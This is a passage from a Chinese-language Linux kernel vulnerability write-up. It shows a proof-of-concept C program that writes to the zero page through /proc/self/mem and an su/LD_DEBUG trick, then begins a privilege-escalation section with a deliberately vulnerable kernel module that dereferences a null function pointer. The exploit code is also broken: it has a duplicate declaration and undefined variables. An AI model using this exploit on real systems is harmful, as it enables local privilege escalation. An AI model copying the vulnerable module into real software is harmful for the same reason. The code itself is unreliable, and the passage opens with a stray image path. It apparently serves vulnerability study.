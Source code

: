 这样就实现了对用户空间0地址的数据写入。

### 4.2 POC

```
#include <stdio.h>
#include <sys/mman.h>
#include <err.h>
#include <fcntl.h>


int main() {
    //先获得一块此程序进程的允许的最低内存映射，添加MAP_GROWSDOWN FLAG以允许向低地址扩张
    unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|
    PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
    if (addr != 0x10000)
        err(2,"mmap failed");

    //获得一个此进程mem文件的文件指针
    int fd = open("/proc/self/mem",O_RDWR);
    if (fd == -1)
        err(2,"open mem failed");

    unsigned long addr = (unsigned long) map;
    while (addr)
    {
        addr -= 0x1000; // 页面是0x1000对齐的，每次递减，来获得0地址页面

        if (lseek(fd, addr, SEEK_SET) == -1)// 当将此文件的文件指针设置到addr地址
            err(2, "lseek failed");
        
        //调用su命令进行特权绕过，并使用LD_DEBUG生成一些数据进行写入，触发漏洞时，写入文件的addr为0
        sprintf(cmd, "LD_DEBUG=help su 1>&%d", fd);
        system(cmd);
    }
    //输出当前进程的内存映射，来证明映射到了0地址
    system("head -n1 /proc/$PPID/maps");

    //输出0地址中的内容
    printf("contents:%s\n",(char *)1);
}
```
**运行展示图**
![](exploit.png)
其中，运行`LD_DEBUG=help su 1`命令时，输出的数据为"Valid ....."
而上图中，我们输出的16进制数字，对应的就是"Vali"


## 4.3 漏洞利用提权
首先自己写一个存在空指针解引用问题的模块
```
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>
 
void (*my_funptr)(void);
static struct proc_dir_entry* proc_entry;

static ssize_t custom_read(struct file* file, char __user* user_buffer, size_t count, loff_t* offset)
{
 my_funptr();  //---->Null pointer Dereference
 return 0;
}
```